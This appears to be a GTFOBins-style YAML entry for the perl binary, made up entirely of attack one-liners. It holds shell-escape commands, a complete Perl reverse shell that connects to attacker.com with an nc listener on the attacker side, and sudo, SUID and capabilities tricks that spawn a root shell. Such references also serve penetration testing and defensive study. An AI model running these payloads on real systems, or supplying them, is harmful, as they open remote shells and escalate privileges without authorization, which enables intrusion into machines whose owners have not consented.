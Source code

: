 ```yaml
---
name: perl
functions:
  shell:
    - code: perl -e 'exec "/bin/sh";'
  reverse-shell:
    - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        perl -e 'use Socket;$i="$ENV{RHOST}";$p=$ENV{RPORT};socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
  suid:
    - code: ./perl -e 'exec "/bin/sh";'
  sudo:
    - code: sudo perl -e 'exec "/bin/sh";'
  capabilities:
    - code: ./perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
---
```

